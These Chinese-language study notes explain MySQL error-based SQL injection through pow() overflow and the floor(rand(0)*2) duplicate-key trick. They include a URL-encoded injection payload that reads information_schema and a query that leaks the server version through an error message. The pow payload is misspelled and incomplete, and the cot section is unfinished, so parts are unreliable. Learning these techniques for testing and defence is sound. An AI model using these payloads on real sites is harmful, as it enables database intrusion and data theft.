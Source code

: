 

### pow函数报错

数值范围一直都是18446744073709551615

公式 : `pow(x,y) = x^y`

实例: `select pow(~(select * from (select group_concat(shcema_name) from informatiom_schema.schemata)x)) %23`



### cot函数报错

公式如下:
$$
cot(x)=\frac{cos(x)}{sin(x)}
$$
实例: 待会再写





## 列名重复报错



#### 列名重复报错原理: 

`select count(*) floor(rand(0)*2) as a from users group by a`

- rand函数用于获取随机数，其中括号中间的数为‘种子‘,随机数的起点。(默认为0-1之间的数)
- floor函数代表着将他转换为离他最近的整数，例如: 1.1 = 1, 1.9 =1等
- group by 代表着分组
- count函数用于统计

总结 : 由于rand函数是一个伪随机函数，所以会导致有重复的查询键值的出现，然后在进行分组统计时就会键值报错，因为出现了多次相同的键值。



> [!TIP]
>
> `select rand() from users` 有users表有几串数据运行几次。 

具体见:[Mysql报错注入之floor(rand(0)*2)报错原理探究 - FreeBuf网络安全行业门户](https://www.freebuf.com/column/235496.html)



示例报错: 

```mysql
select count(*) ,concat(version(),floor(rand(0)*2)) as x from users group by x

ERROR 1062 (23000): Duplicate entry '5.5.29-log1' for key 'group_key'
```




